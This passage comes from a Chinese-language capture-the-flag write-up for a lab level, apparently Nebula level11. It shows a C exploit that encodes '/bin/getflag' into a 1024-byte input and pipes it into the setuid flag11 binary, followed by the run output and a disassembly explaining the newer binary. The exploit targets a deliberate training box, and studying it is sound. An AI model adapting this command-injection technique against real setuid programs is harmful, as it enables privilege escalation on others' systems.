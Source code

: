 运气不错，没试几次就得到了结果:D

第二种方法就是走if的另外一条路，那需要满足`length >= sizeof(buf)`，也就是Length>=1024。可以先创建一个1024长度的空内容，之后把需要执行的命令填充进去：

```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
	int length = 1024;
	char buffer[1024] = {0};
	unsigned int key;
	int i;

	memcpy(buffer, "/bin/getflag", 13);
	
	key = length & 0xff;
	for(i = 0; i < length; i++) {
        buffer[i] ^= key;
        key -= buffer[i] ^ key;
	}
	
	puts("Content-Length: 1024");
	fwrite(buffer, 1, length, stdout);

	return 0;
}
```

根据`getrand()`中的要求，设置一下环境变量：

```bash
export TEMP=/tmp
```

编译并执行程序：

```cpp
level11@nebula:~$ gcc -o exp11 exp11.c
level11@nebula:~$ ./exp11 | ~flag11/flag11_old
blue = 1024, length = 1024, pink = 1024
You have successfully executed getflag on a target account
```

这样两种方法就实现了。

最后说一说为什么新的文件不能成功运行程序。反汇编一下flag11：

```x86asm
   0x080489c7 <+0>:		push   %ebp
   0x080489c8 <+1>:		mov    %esp,%ebp
   0x080489ca <+3>:		sub    $0x28,%esp
   0x080489cd <+6>:		mov    0xc(%ebp),%eax
   0x080489d0 <+9>:		and    $0xff,%eax
   0x080489d5 <+14>:	mov    %eax,-0x10(%ebp)
   0x080489d8 <+17>:	movl   $0x0,-0xc(%ebp)
   0x080489df <+24>:	jmp    0x8048a0c <process+69>
   0x080489e1 <+26>:	mov    -0xc(%ebp),%eax
   0x080489e4 <+29>:	add    0x8(%ebp),%eax
   0x080489e7 <+32>:	mov    -0xc(%ebp),%edx
   0x080489ea <+35>:	add    0x8(%ebp),%edx
   0x080489ed <+38>:	movzbl (%edx),%edx
   0x080489f0 <+41>:	mov    %edx,%ecx
   0x080489f2 <+43>:	mov    -0x10(%ebp),%edx
   0x080489f5 <+46>:	xor    %ecx,%edx
   0x080489f7 <+48>:	mov    %dl,(%eax)
   0x080489f9 <+50>:	mov    -0xc(%ebp),%eax
   0x080489fc <+53>:	add    0x8(%ebp),%eax
   0x080489ff <+56>:	movzbl (%eax),%eax
```